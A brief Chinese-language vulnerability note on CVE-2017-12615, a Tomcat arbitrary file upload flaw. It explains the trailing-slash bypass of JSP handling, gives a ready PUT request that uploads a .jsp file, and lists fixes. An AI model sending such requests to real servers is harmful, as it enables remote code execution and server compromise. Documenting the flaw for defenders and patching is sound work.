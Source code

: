 ### 0x00 简述

漏洞名称：Tomcat任意文件上传漏洞

漏洞编号：CVE-2017-12615

漏洞影响：上传包含任意代码的文件，并被服务器执行。

影响平台：Windows

影响版本：Apache Tomcat 7.0.0 - 7.0.81

### 0x01 利用

在 Windows 服务器下， 默认 readonly 为 true，当 readonly 设置为 false 时，可以通过 PUT / DELETE 进行文件操控，并可以执行任意代码。直接使用 PUT上传文件时却发现会报404：
![1583229295580](.\images\1583229295580.png)

这是因为在默认配置中，当后缀名为 .jsp 和 .jspx 的时候，是通过 JspServlet 处理请求的，要上传文件就得绕过，所以需要在文件末尾加上 `/` 进行绕过(windows下可以使用`%20`)

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```

### 0x02 修复

- 禁用`PUT`
- `readonly` 设为 `true`
- 升级

### 0x03 参考链接

 https://paper.seebug.org/398 